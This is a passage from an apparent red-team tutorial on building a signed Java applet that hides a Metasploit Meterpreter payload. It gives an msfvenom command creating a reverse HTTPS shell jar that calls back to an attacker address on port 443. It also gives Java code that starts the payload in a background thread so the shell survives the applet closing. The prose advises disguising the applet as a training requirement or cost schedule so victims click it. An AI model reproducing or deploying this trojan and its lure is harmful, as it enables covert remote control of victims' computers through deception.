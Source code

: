 Copy the user.p12 and root_cert.pfx to the systems that will be utilizing the Java applet. Copy the user.jks to the system that will be signing the applet.

Generate the meterpreter jar file
Use your latest Kali VM, use msfvenom in order to create your jar file that you will use to decompile and insert into your java program.

```
msfvenom -p java/meterpreter/reverse_https -f raw LHOST=192.168.1.5 LPORT=443 > java_rhttps.jar
```

Download jd-gui from http://jd.benow.ca/ to decompile the jar.

Export all the sources to a zip file and we will import them into our java project.

![](/assets/img/signed-java-applet/jd-gui.png)

### Creating the signed java applet

Make sure you have the latest Netbeans installed. Create a new project in netbeans. The narrative here is to create a java applet that doesn’t call too much attention to itself, but the victims will still have a reason to click on it. A training requirement, an updated cost schedule, or something that would require them to launch a browser and view the information.

With Netbeans, you can create java fxml projects with are a bit snazzier when it comes to their display. You can spend alot of time creating your java applet, but for the purposes of this post we’ll stick with something simple.

After you’ve got your shell java program, we need to add some code to launch our new thread which will kick off our java meterpreter. This will also be useful so that if the browser or java applet gets closed, our java meterperter will stay running in the background.


```java
Thread athread = new Thread(new Runnable(){
   @Override
   public void run(){
       try{
        Payload.main(new String[0]);
       }
       catch(Exception e){}
   }
});
athread.start();
```
